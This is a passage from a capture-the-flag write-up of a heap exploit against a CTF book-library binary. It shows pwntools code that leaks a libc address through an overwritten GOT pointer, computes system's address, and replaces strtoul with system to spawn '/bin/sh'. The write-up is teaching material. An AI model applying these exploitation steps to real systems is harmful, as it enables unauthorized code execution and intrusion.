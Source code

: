 ```python
edit_title(2, 'AAAAAAAA' + p64(strtoul_got_addr), '', 0)
```

But this leaves us with an invalid size. That's actually fine for the rest of our exploit, but if we did want to allocate another book for some reason, `realloc` would attempt to reallocate on the same chunk of memory and fail because of the invalid size. To be safe, we'll do this:

```python
edit_title(2, p64(0x51), p64(strtoul_got_addr), 0)
```

Note that this wouldn't have worked:
```python
edit_title(2, p64(0x51) + p64(strtoul_got_addr), '', 0)
```

Because the code uses `strncpy`, and `NULL` bytes wouldn't be accepted in the title.

Finally, we can leak our libc address:

```python
p.recvuntil('Editing title: Q')
p.recvuntil('4: ')
libc_leak = u64(p.recvline().strip().ljust(8, '\x00'))
log.info('libc_leak: %s' % hex(libc_leak))
```

## Getting a shell

Now that we've leaked a libc address, we can find the address of `system`:
```python
strtoul_offset = 0x3d410
system_offset = 0x46590

libc_base = libc_leak - strtoul_offset
system_addr = libc_base + system_offset

log.info('libc_base: %s' % hex(libc_base))
log.info('system_addr: %s' % hex(system_addr))
```

Finally, we edit the address of `strtoul` to `system`:

```python
edit_title(4, p64(system_addr), '', '/bin/sh')
p.interactive()
```

And you have a shell!

The code to edit a book first sets the title and then calls `strtoul` on the rating, which is why we passed the rating in as '/bin/sh'. This means `strtoul('/bin/sh')` is called after we rewrite the `strtoul` GOT address, which means we effectively call `/bin/sh`.

For the actual challenge, you needed to use a libc from Debian Jessie, which I found online. My full exploit can be found [here](https://github.com/samuraictf/writeups/blob/master/2016/tum/l1br4ry/solve.py).
